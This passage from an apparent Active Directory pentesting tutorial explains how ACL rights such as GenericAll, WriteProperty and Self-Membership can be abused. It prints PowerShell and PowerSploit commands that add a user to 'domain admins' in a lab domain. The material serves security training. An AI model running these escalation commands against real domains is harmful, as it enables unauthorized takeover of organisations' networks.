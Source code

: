 Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

## GenericAll / GenericWrite / Write on Computer/User

* If you have these privileges on a **Computer object**, you can pull [Kerberos **Resource-based Constrained Delegation**: Computer Object Take Over](../resource-based-constrained-delegation.md) off.
* If you have these privs over a user, you can use one of the [first methods explained in this page](./#genericall-on-user).
* Or, either you have it in a Computer or a user you can use **Shadow Credentials** to impersonate it:


[shadow-credentials.md](shadow-credentials.md)


## WriteProperty on Group

If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:

![](../../../.gitbook/assets/7.png)

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../../.gitbook/assets/8.png)

## Self (Self-Membership) on Group

Another privilege that enables the attacker adding themselves to a group:

![](../../../.gitbook/assets/9.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../../.gitbook/assets/10.png)

## WriteProperty (Self-Membership)

One more privilege that enables the attacker adding themselves to a group:
